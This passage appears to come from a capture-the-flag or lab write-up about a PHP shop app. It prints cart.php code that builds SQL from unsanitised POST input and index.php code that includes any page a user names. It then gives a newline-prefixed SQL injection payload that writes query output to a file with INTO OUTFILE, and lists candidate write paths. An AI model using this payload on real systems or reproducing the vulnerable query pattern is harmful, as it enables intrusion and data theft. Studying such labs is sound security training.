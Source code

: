 and the file data is written to `out.txt` in the same folder!

After a few attempts I found the following file path for the website: `/var/www/html/` and one specific file of interest.

Reading `/var/www/html/shop/cart.php` has a vulnerability.

```php
// If the user clicked the add to cart button on the product page we can check for the form data
if (isset($_POST['product_id'], $_POST['quantity'])) {
    // Set the post variables so we easily identify them, also make sure they are integer
    $product_id = $_POST['product_id'];
    $quantity = $_POST['quantity'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
        echo '';
    } else {
        // Construct the SQL statement with a vulnerable parameter
        $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
        // Execute the SQL statement without any sanitization or parameter binding
        $product = $pdo->query($sql)->fetch(PDO::FETCH_ASSOC);
```

The data of `/var/www/html/shop/index.php` where we specify the `page` has no restriction against direct paths aswell, but only for `.php` files.

```php
<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```

Using the SQLi with a CRLF we can print data to an outfile, then read it with a direct path.

```
POST /shop/index.php?page=cart HTTP/1.1
...

quantity=1&product_id=%0a';select+@@version+into+outfile+'<directory>'; --1
```

Let's find a way to output a file, we can't write to:

```
/tmp/version.txt
/var/www/html/version.txt
/var/www/html/shop/version.txt
```
